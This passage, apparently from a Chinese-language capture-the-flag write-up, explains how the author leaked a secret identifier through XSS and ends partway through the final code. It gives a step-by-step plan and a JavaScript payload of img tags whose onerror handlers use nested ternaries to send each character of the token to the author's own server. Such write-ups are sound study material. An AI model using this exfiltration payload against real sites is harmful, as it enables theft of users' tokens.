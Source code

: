 既然這兩個問題都解開了，那把這些拼湊起來，就可以湊出最後的答案了，流程如下：

1. 打開 poc.html，window.open XSS challenge
2. error 帶上我們準備好的 payload
3. 用 img 的 onerror 執行一堆巢狀的三元運算子，符合條件就載入相對應的圖片，洩漏出第 n 個字，並等待下一圈迴圈開始
4. server 接收到圖片，知道第 n 個字是什麼
5. server 把結果傳給 poc.html，poc.html 去更新 win.location.hash
6. 更新完之後 server 透過回傳 response 來開啟下一圈迴圈，把 n+1，回到第 3 步
7. 重複以上動作直到找出 token

以上是最理想的流程，但因為時間因素所以我有幾個地方沒有照著做，例如說：

1. 我假設 identifier 的第一個字是 `1`，不是的話就跳掉
2. server 等待 500ms 就會開始下一圈迴圈，但有可能 location.hash 還沒更新完成
3. server 傳結果給 poc.html 最理想是用 websocket，但我偷懶用 long polling
4. 我懶的判斷 identifier 是不是全部抓完，所以等 length > 10 就開始嘗試 postMessage

最後的程式碼長這樣：

``` js
var payload = `
<img srcset=//my_server/0 id=n0 alt=#>
<img srcset=//my_server/1 id=n1 alt=a>
<img srcset=//my_server/2 id=n2 alt=b>
<img srcset=//my_server/3 id=n3 alt=c>
<img srcset=//my_server/4 id=n4 alt=d>
<img srcset=//my_server/5 id=n5 alt=e>
<img srcset=//my_server/6 id=n6 alt=f>
<img srcset=//my_server/7 id=n7 alt=g>
<img srcset=//my_server/8 id=n8 alt=h>
<img srcset=//my_server/9 id=n9 alt=i>
<img srcset=//my_server/a id=n10 alt=j>
<img srcset=//my_server/b id=n11 alt=k>
<img srcset=//my_server/c id=n12 alt=l>
<img srcset=//my_server/d id=n13 alt=m>
<img srcset=//my_server/e id=n14 alt=n>
<img srcset=//my_server/f id=n15 alt=o>
<img srcset=//my_server/g id=n16 alt=p>
<img srcset=//my_server/h id=n17 alt=q>
<img srcset=//my_server/i id=n18 alt=r>
<img srcset=//my_server/j id=n19 alt=s>
<img srcset=//my_server/k id=n20 alt=t>
<img srcset=//my_server/l id=n21 alt=u>
<img srcset=//my_server/m id=n22 alt=v>
<img srcset=//my_server/n id=n23 alt=w>
<img srcset=//my_server/o id=n24 alt=x>
<img srcset=//my_server/p id=n25 alt=y>
<img srcset=//my_server/q id=n26 alt=z>
<img srcset=//my_server/r id=n27 alt=0>
<img srcset=//my_server/s id=n28>
<img srcset=//my_server/t id=n29>
<img srcset=//my_server/u id=n30>
<img srcset=//my_server/v id=n31>
<img srcset=//my_server/w id=n32>
<img srcset=//my_server/x id=n33>
<img srcset=//my_server/y id=n34>
<img srcset=//my_server/z id=n35>

<img id=lo srcset=//my_server/loop onerror=
n0.alt+identifier<location.hash+1?n0.src+++lo.src++:
n0.alt+identifier<location.hash+2?n1.src+++lo.src++:
n0.alt+identifier<location.hash+3?n2.src+++lo.src++:
n0.alt+identifier<location.hash+4?n3.src+++lo.src++:
n0.alt+identifier<location.hash+5?n4.src+++lo.src++:
n0.alt+identifier<location.hash+6?n5.src+++lo.src++:
n0.alt+identifier<location.hash+7?n6.src+++lo.src++:
```
